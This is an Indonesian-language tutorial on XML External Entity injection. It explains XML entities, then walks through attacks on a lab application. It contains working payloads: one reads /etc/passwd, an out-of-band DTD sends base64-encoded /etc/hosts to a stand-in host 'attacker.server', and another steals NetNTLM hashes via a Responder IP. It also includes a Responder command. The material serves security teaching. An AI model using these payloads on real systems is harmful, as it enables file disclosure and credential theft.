

# XML External Entity Injection

## XML Entity 101

### General Entity

Secara garis besar **Entity** pada XML bisa dikatakan sebagai variable, sehingga Entity ini bisa menampung sebuah nilai. Entity bisa di deklarasikan sebagai **Internal** atapun **External**. Entity mempuyai 3 bagian penting yaitu `&`,`enitity-name` dan `;`. Sehingga untuk memanggil entity yang sudah di deklrasikan harus menggabungkan 3 bagian tersebut.

#### Internal Entity

Untuk membuat Internal Entity menggunakan syntax berikut

```markup
<!ENTITY entity-name "entity value">
```

**Contoh**

```markup
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE user [
<!ENTITY name "si tampan">
]>
<user>&name;</user>
```

Hal ini sama saja seperti code php di bawah ini.

```php
$name = "si tampan";
```

#### External Entity

Pembuatan external entity sama seperti saat pembuatan internal entity, tetapi menambahkan keyword `SYSTEM` setelah nama entity dan value nya merupakan sebuah valid `URI/URL` yang absolute/relative.

```markup
<!ENTITY enitity-name SYSTEM "URI/URL">
```

**Contoh**

```markup
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE text [
<!ENTITY word SYSTEM "file://text.txt">
]>
<text>&word;</text>
```

XML diatas sama seperti code php berikut

```php
$word = file_get_contents("file://text.txt");
```

### Parameter Entity

Parameter entity sebenar nya mirip dengan General Entity, hanya aja parameter entity hanya dapat digunakan didalam structure `DTD` diantara `<!DOCTYPE docname [` dan `]>` dan harus menambahkan tanda `%` sebelum nama entity.

Pada parameter entity juga terdapat Internal dan External Entity tetapi disini hanya akan membahas parameter external entity. Pada parameter entity, external entity nya harus merupakan data XML karena akan di treat sebagai DTD. Pengguanaan parameter entity mirip seperti konsep `include()` pada php.

```markup
<!ENTITY % enitity-name SYSTEM "URI">
```

Contoh nya terdapat external `DTD` dengan nama `data.xml`, isi nya :

```markup
<!ENTITY email "si_tampan@email.com">
<!ENTITY name "si tampan">
```

**Contoh**

```markup
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE user [
<!ENTITY ext-dtd SYSTEM "data.xml">
%ext-dtd; 
]>
<user>&name; &email;</user>
```

Karena parameter entity ini mirip fungsi `include()` di php, ketika pemanggilan `%ext-dtd;` terjadi , `%ext-dtd` akan di replace oleh semua data yang ada di `data.xml` sehingga akan menjadi seperti dibawah ini :

```markup
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE user [
<!ENTITY ext-dtd SYSTEM "data.xml">
<!ENTITY email "si_tampan@email.com">
<!ENTITY name "si tampan">
]>
<user>&name; &email;</user>
```

#### Entities Within Entities

Nilai dari Entity yang sudah dideklarasikan bisa digunakan atau digabungkan kedalam Entity lain menggunakan syntax berikut :

```markup
<!ENTITY enitity-one "entity-one value">
<!ENTITY entity-two "entity-two value &enitity-one;">
```

**Contoh**

```markup
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE user [
<!ENTITY email "si_tampan@email.com">
<!ENTITY name "si tampan &email;">
]>
<user>&name;</user>
```

Entities Within Entities juga dapat dilakukan pada parameter entity, tetapi nilai nya haruslah valid XML karena akan di parse.

## XXE Attack

Sederhananya XXE attack terjadi karena XML Parser mengijinkan penggunaan External Entity. Definisi nya hanya sesimple itu !

Karena dengan bisa digunakan nya external entity, attacker bisa melakukan berbagai macam hal, seperti :

1. SSRF
2. PHP Object Injection \(Melalui phar://\)
3. XSS/CSRF
4. Local File Disclosure
5. RCE \(?\)
6. Local Port Scanning

### Lab Setup

Untuk lab nya menggunakan `xxelab` dari [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab) Pada repo tersebut sudah dibuatkan `Vagrantfile` yang bearti bisa langsung membuat `Environment` nya menggunakan `vagrant`

```bash
$ git clone https://github.com/jbarone/xxelab.git
$ cd xxelab
$ vagrant up
```

Atau bisa langsung menggunakan web server pada komputer masing-masing tanpa harus setup vagrant.


### Classic XXE

Pada classic XXE, attacker hanya perlu membuat external entity sederhana untuk membaca local file, dan memanggil entity melalui element yang akan di parsing oleh XML Parser.

Percobaan request pada web lab.


Dari hasil response server terlihat bahwa element email akan di parsing dan ditampilkan, oleh karena itu bisa dilakukan classic XXE untuk membaca local file.

**Payload :**

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root>
<name>test</name>
<tel>082</tel>
<email>&file;</email>
<password>pwd</password>
</root>
```


### Blind XXE - Out Of Band XXE

Seperti namanya `blind` yang berarti hasil parsing atau data nya tidak akan ditampilkan, untuk melihat datanya harus dilakukan `exfiltration` sehingga data tersebut bisa dilihat/dibaca.

Untuk lab blind xxe masih tetap menggunakan xxelab, tetapi source nya sedikit dirubah, yaitu pada bagian `echo` dihapus sehingga hasil nya tidak terlihat.

```php
echo "Sorry, $email is already registered!";
```

### Blind XXE Verification

Sebelum asal melakukan blind xxe injection, ada baiknya melakukan verifikasi terlebih dahulu, apakah web ini benar vulnerable blind xxe atau tidak. Untuk memverifikasi cukup mudah karena hanya tinggal menggunakan external entity dengan wrapper atau protokol yang mendukung remote source seperti http, ftp ataupun protokol lainnya sesuai dengan keadaan environment yang digunakan target \(karena beberapa protokol/wrapper tidak enable by default dan juga ada wrapper yang hanya bekerja pada bahasa pemrograman tertentu saja tertentu saja\).

**Payload Verfication :**

```markup
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>test</email>
<password>pwd</password>
</root>
```

Apabila mendapatkan response dari server target berarti bisa dipastikan vulnerable blind xxe. 


### OOB XXE

Apabila target sudah diverifikasi dan mendapatkan response yang menandakan vulnerable XXE, langkah selanjutkan adalah melakukan exfiltration terhadap data yang ingin dibaca.

remote dtd nya bernama `evil.dtd` disimpan di server attacker, isi nya :

```markup
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://attacker.server:2121/?%file;'>">
```

Pada payload diatas, filenya menggunakan wrapper php base64 tujuannya adalah untuk menghindari adanya `whitespace` karakter pada data yang ingin diexfiltration karena pada `libxml` php url tidak boleh mengandung whitespace karakter.


**Cara kerja payload diatas sebagai berikut :** 

1. Parser akan mengambil external entity yang berada remote source di [http://attacker.server/evil.dtd](http://attacker.server/evil.dtd) 

2. paramter entity `file` akan membaca file `/etc/hosts` 

3. entity `all` akan membuat parameter entity bernama `send` 

4. entity `send` akan melakukan request ke [http://attacker.server:2121](http://attacker.server:2121) dan mengappend data dari entity file, sehingga url requests nya akan menjadi [http://attacker.server:2121/?DATABASE64](http://attacker.server:2121/?DATABASE64)

Pada server listener terdapat data yang diencode base64, apabila didecode isi nya adalah file `/etc/hosts` server target. 


### XXE And Port Scan

Untuk melakukan port scanning sebenarnya sangat gampang, karena payload nya sama saja dengan saat melakukan verifikasi blind xxe. Dengan begitu attacker hanya perlu mengganti host ke `local server` dan port berapa yang ingin coba dihubungi. Indikator apakah port tertentu terbuka bisa dilihat dari response server, misal nya response time atau bahkan pesan error yang ditampilan \(apabila server mengaktifkan error reporting\).

Percobaan scanning port 9000. 


### XXE And NetNTLM

Pada Windows Server XXE juga dapat dimanfaatkan untuk melakukan stealing `NetNTLM` hash dengan bantuan tool `metasploit` ataupun [`Responder`](https://github.com/SpiderLabs/Responder), NetNTLM hash yang di steal tersebut TIDAK bisa digunakan untuk `Pass The Hash Attack` tapi bisa dilakukan crack untuk mendapatkan plaintext password.

Untuk berinteraksi dengan protokol `SMB` \(khusus pada kasus XXE di php\) kita dapat memanfaakan wrapper `php://` dan URI untuk berinteraksi protokol SMB adalah `//`

Untuk masalah payload, tentu saja menggunakan external entity \(General/Parameter\).

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//RESPONDER-IP/WhatEver">
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>&steal;</email>
<password>pwd</password>
</root
```

Command untuk menjalankan Responder.

```bash
$ ./Responder.py -I <INTERFACES_NAME>
```



### XXE And Open XML Document

### XXE And SSRF

## Conclusion

XXE attack terjadi karena XML Parser mengijinkan penggunaan External Entity. XXE adalah bug yang terjadi pada teknologi yang specifik yaitu XML, apabila masih belum mengerti tentang XXE, itu dikarenakan kurang nya pengetahuan terhadap XML itu sendiri.

## Update

Tulisin ini akan terus diupdate, karena memang masih banyak yang ingin dibahas mengenai XXE ini, terutama sifat-sifat dari XML parser dari berbagai bahasa pemrograman.

## Reference :

[https://www.w3schools.com/xml/xml\_dtd\_intro.asp](https://www.w3schools.com/xml/xml_dtd_intro.asp) [https://xmlwriter.net/xml\_guide/entity\_declaration.shtml](https://xmlwriter.net/xml_guide/entity_declaration.shtml) [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4) [https://www.xml.com/pub/a/98/08/xmlqna2.html](https://www.xml.com/pub/a/98/08/xmlqna2.html) [https://www.liquid-technologies.com/DTD/Structure/ENTITY.aspx](https://www.liquid-technologies.com/DTD/Structure/ENTITY.aspx) [https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/) [https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php](https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php)

